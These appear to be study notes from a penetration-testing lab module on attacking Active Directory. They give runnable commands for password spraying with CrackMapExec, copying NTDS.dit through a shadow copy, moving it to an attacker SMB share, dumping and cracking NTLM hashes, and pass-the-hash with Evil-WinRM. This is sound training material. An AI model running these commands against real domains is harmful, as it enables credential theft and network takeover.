 It is safe to conclude that if the organization uses Windows, then AD is used to manage those Windows systems. Attacking AD is such an extensive & significant topic that we have multiple modules covering AD.

In this section, we will focus primarily on how we can extract credentials through the use of a  **`dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.**

this attack requires the target be reachable over the network. 
it is highly likely that we will need to have a foothold established on the internal network to which the target is connected.
* here are situations where an organization may be using port forwarding to forward the remote desktop protocol (`3389`) or other protocols used for remote access on their [edge router](https://www.cisco.com/c/en/us/products/routers/what-is-an-edge-router.html) to a system on their internal network.
	*  know that most methods covered in this module simulate the steps after an initial compromise, and a foothold is established on an internal network.



Consider the authentication process once a Windows system has been joined to the domain.
This approach will help us better understand the significance of Active Directory and the password attacks it can be susceptible to.
* Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`.
	* The domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on.
	* This does not mean the SAM database can no longer be used.
		* someone looking to log on using a local account in the SAM database can still do so by specifying the `hostname` of the device proceeded by the `Username` (Example: `WS01/nameofuser`) or with direct access to the device then typing `./` at the logon UI in the `Username` field.
* This is worthy of consideration because we need to be mindful of what system components are impacted by the attacks we perform.
	* it can also give us additional avenues of attack to consider when targeting Windows desktop operating systems or Windows server operating systems with direct physical access or over a network. 
		* Keep in mind that we can also study NTDS attacks by keeping track of this [technique](https://attack.mitre.org/techniques/T1003/003/).


## Dictionary Attacks against AD accounts using CrackMapExec

This method  can be rather `noisy`,  they can generate a lot of network traffic and alerts on the target system as well as eventually get denied due to login attempt restrictions that may be applied through the use of [Group Policy](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831791(v=ws.11)).

When we find ourselves in a scenario where a dictionary attack is a viable next step, we can benefit from trying to `custom tailor` our attack as much as possible.

* we can consider the organization we are working with to perform the engagement against and use searches on various social media websites and look for an employee directory on the company's website.
* One of the first things a new employee will get is a username. Many organizations follow a naming convention when creating employee usernames. Here are some common conventions to consider:
|Username Convention|Practical Example for Jane Jill Doe|
|---|---|
|`firstinitiallastname`|jdoe|
|`firstinitialmiddleinitiallastname`|jjdoe|
|`firstnamelastname`|janedoe|
|`firstname.lastname`|jane.doe|
|`lastname.firstname`|doe.jane|
|`nickname`|doedoehacksstuff|

Often, an email address's structure will give us the employee's username (structure: username@domain). For example, from the email address `jdoe`@`inlanefreight.com`, we see that `jdoe` is the username.

* __A tip from MrB3n: We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails.
	* From there, we can use a script to scrape various social media sites and mashup potential valid usernames.
* Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith

#### Creating a Custom list of Usernames

Let's say we have done our research and gathered a list of names based on publicly available information. We will keep the list relatively short for the sake of this lesson because organizations can have a huge number of employees. Example list of names:

- Ben Williamson
- Bob Burgerstien
- Jim Stevenson
- Jill Johnson
- Jane Doe

We can create a custom list on our attack host using the names above. We can use a command line-based text editor like `Vim` or a graphical text editor to create our list. Our list may look something like this:


```shell-session
canklesmaks@htb[/htb]$ cat usernames.txt 
bwilliamson
benwilliamson
ben.willamson
willamson.ben
bburgerstien
bobburgerstien
bob.burgerstien
burgerstien.bob
jstevenson
jimstevenson
jim.stevenson
stevenson.jim
```

We can manually create our list(s) or use an `automated list generator` such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats

#### Launching the Attack with CrackMapExec
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

Once we have discovered some credentials, we could proceed to try to gain remote access to the target domain controller and capture the NTDS.dit file.

## Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources.

Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). 

The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html).
	 primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.

#### Connecting to a DC with Evil-WinRM
```shell-session
canklesmaks@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Checking Local Group Membership
Once connected, we can check to see what privileges `bwilliamson` has. We can start with looking at the local group membership using the command:

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```
We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.
#### Checking User Account Privileges including Domain
```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
```

#### Creating Shadow Copy of C:
We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD.

*  It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.
* We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down 
* VSS is used by many different backup & disaster recovery software to perform operations.
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```
#### Copying NTDS.dit from the VSS

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Before copying NTDS.dit to our attack host, we may want to use the technique we learned earlier to create an SMB share on our attack host. Feel free to go back to the [[Attacking SAM (security accounts manager)]]section to review that method if needed.

#### Transferring NTDS.dit to Attack Host
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### A Faster Method: Using cme to Capture NTDS.dit

Alternatively, we may benefit from using CrackMapExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
#### Cracking a Single Hash with Hashcat
```shell-session
canklesmaks@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
## Pass-the-Hash Considerations

We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash.
	Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:

#### Pass-the-Hash with Evil-WinRM Example
```shell-session
canklesmaks@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
We can attempt to use this attack when needing to move laterally across a network after the initial compromise of a target. More on PtH will be covered in the module `AD Enumeration and Attacks`.